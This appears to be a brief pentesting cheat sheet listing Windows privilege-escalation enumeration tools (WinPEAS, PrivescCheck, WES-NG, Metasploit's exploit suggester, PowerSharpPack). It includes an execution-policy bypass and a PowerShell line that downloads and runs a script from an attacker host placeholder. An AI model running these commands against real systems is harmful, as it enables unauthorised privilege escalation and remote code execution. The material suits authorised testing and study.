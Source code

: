 ### 1: WinPEAS  Author:https://github.com/carlospolop/PEASS-ng/releases

### 2: Privesccheck (Set -ExecutionPolicy Bypass -Scope process -Force) Author: https://github.com/itm4n/PrivescCheck

### 3: Windows Exploit Suggester - Next Generation (WES-NG) Author: https://github.com/AonCyberLabs/Windows-Exploit-Suggester

### Systeminfo > txt file

### wes.py --update

### 4: Metasploit (multi/recon/local_exploit_suggester)

### 5: PowerSharpPack https://github.com/S3cur3Th1sSh1t/PowerSharpPack

    iex(new-object net.webclient).downloadstring('http://ATTACK_IP:PORT/PowerSharpPack.ps1')

### Then

    PowerSharpPack -winPEAS
